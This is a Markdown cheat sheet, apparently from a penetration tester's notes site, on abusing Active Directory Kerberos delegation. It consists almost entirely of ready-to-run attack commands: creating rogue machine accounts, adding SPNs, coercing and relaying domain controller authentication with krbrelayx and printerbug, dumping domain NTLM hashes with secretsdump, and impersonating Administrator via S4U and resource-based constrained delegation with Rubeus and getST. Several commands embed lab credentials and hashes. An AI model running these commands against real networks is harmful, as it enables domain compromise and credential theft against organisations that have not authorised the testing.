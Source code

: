 ```yaml
---
title: "Delegation"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```

## Privesc
####  SeEnableDelegationPrivilege


- Chack the MAQ : 
```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

- Create a a computer Unconstrained Delegation (Powermad)

```sh
Import-Module ./Powermad.ps1

New-MachineAccount -MachineAccount pwned -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)

Set-MachineAccountAttribute -MachineAccount pwned -Attribute useraccountcontrol -Value 528384

Set-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Value HTTP/pwned.delegate.vl -Append

Get-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Verbose
```

-  Create a a computer Unconstrained Delegation (Impacket)

```sh
addcomputer.py -dc-ip $t -computer-pass TestPassword321 -computer-name UwU delegate.vl/N.Thompson:'KALEB_2341'

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl

bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'UwU$' -f TRUSTED_FOR_DELEGATION
```

## Unconstrained Delegation
#ADS_UF_TRUSTED_FOR_DELEGATION
- Enumerate Uncontrained Delegation :
```sh
Get-NetComputer -Unconstrained #Powerview

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

- Add SPN (Impacket) : 
```sh
addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl
```

- Add SPN (Powermad) : 
```sh
Set-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Value HTTP/pwned.delegate.vl -Append

Get-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Verbose
```

- Grab CCache
```sh
dnstool.py -u 'delegate.vl\UwU$' -p TestPassword321 -r UwU.delegate.vl -d 10.8.3.12 --action add DC1.delegate.vl -dns-ip $t

krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC

printerbug.py delegate.vl/'UwU$'@dc1.delegate.vl UwU.delegate.vl
```

- Dumping hashes
```sh
export KRB5CCNAME=`pwd`/'krbtgt.ccache
secretsdump.py -k DC1.delegate.vl -just-dc-ntlm
```

## Constrained Delegation

#TRUSTED_TO_AUTH_FOR_DELEGATION

- Enumerate with powerview  : 
```sh
Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

- Get a ticket : 
```sh
rubeus.exe asktgt /user:userName /domainDomainName /ntlm:Hash /outfile:FileName.tgt
```

- Impersonate Administrator : 
```sh
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```

- Check accounts with "Trusted for Delegation"
```sh
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Property SamAccountName, TrustedForDelegation
```

- With linux :
```sh
getST.py tengu.vl/gMSA01$ -spn 'MSSQLSvc/SQL.tengu.vl:1433' -impersonate 'T1_M.WINTERS' -hashes :d4b65861e85773fba2035b31ebcacb37 -dc-ip DC.tengu.vl
#Look for user in the group 
```


## RBCD( Resource-based constrained ) 

- With linux 
```sh
# Read the attribute
rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action 'read' 'domain'/'PowerfulUser':'Password'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity
rbcd.py -delegate-from 'controlledaccount' -delegate-to 'target$' -dc-ip 'DomainController' -action 'write' 'domain'/'PowerfulUser':'Password'

getST.py -spn 'cifs/target' -impersonate Administrator -dc-ip 'DomainController' 'domain/controlledaccountwithSPN:SomePassword'
```

- With windows 
```sh
Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"cifs/target" /domain:"domain" /user:"controlledaccountwithSPN" /rc4:$NThash
```